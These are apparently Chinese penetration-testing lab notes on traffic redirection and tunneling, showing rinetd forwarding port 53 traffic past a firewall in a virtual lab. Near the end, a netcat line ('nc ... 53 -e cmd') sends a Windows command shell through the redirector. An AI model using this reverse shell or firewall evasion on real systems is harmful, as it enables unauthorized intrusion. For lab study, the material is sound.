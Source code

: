 
# 流量操纵与后门

* [SSH](./[10-1]--SSH隧道.md)
* [DNS 协议隧道--dns2tcp](./[10-2]--DNS协议隧道--dns2tcp.md)
* [DNS 协议隧道--iodine](./[10-3]--DNS协议隧道--iodine.md)
* [DNS 协议隧道--NCAT](./[10-4]--DNS协议隧道--NCAT.md)


* 简介
* 重定向

## 简介
* 介绍
> Traffic manipulation technique  
  渗透测试中经常遇到访问受限的网络环境  
  使用隐蔽的手段逃避安全检查措施和溯源追踪  
  证明看似严格的访问控制仍然存在弱点  
  在非受信任的网络中实现安全的数据传输  
  部分概念的实现过程略有烧脑

* 重定向 （Redirection）
> IP、Port

* 隧道 （Tunneling）
> 在不受信任的网络环境中实现安全的通信  
  通常使用多种加密技术建立通信隧道  
  点到点（IP2IP）、端到端（Port2Port，更安全）隧道  
  VPN：pptp、l2tp、IPSec、SSL vpn  

* 封装 （encapsulation）
> 通常结合在隧道中使用，使用一种协议封装一种协议 （RPC over http、VoIP）  
  使用网关设备实现不同类型的互联互通


## 重定向
* 安装 Rinetd
1. 安装：apt-get install rinetd
2. 配置：/etc/rinetd.conf
``` 
 bindadd bindport connectadd connectport

```
3. 运行 Rinetd

* 应用场景
1. 重定向 web 流量，突破上网限制
2. 远程桌面重定向
3. NC 重定向获得 shell
4. 不兼容 ftp 等第二次连接的协议  


* 远程桌面重定向环境进行测试
1. 环境拓扑
``` 
防火墙限制 winxp 访问外网，仅允许53 端口的流量访问内外网
在外网家庭主机 kali 上设置 rinetd 来进行代理
winxp 通过 53 端口访问 kali（rinetd） 进行流量转发，将53端口的流量转发为 80 端口的流量

m0n0wall <--bridge--> kali <--bridge--> 外网服务器win2003（http、rdp、nc）

m0n0wall <--hostonly--> 家庭 winxp
m0n0wall <--bridge--> 外网服务器 win2003（http、rdp、nc）
配置 m0n0wall 禁止 winxp 访问外网，只开放53端口

```   

2. 安装 m0n0wall 防火墙
   
``` 
仅主机
指定 ip: LAN: 1.1.1.1

```

3. winxp
``` 
仅主机
ip：1.1.1.10（dhcp自动获取）
```

4. win2003 开启 rdp，IIS
``` 
桥接
ip：192.168.1.12（dhcp自动获取）
```

5. Kali 安装 rinetd
``` 
桥接
ip：192.168.1.11（dhcp自动获取）
root@kali:~# apt-get install rinetd
root@kali:~# cat /etc/rinetd.conf


root@kali:~# rinetd

```

6. winxp 访问外网


* NC 重定向获得 shell 环境测试

* 将 kali 中的 nc.exe 复制到 winxp 和 win2003

* win2003
```  
C:\>nc -nvlp 333

```

* kali
``` 
root@kali:~# vim /etc/rinetd.conf

重启 rinetd
```

* winxp
``` 
C:\>nc 192.168.1.11 53 -e cmd

```


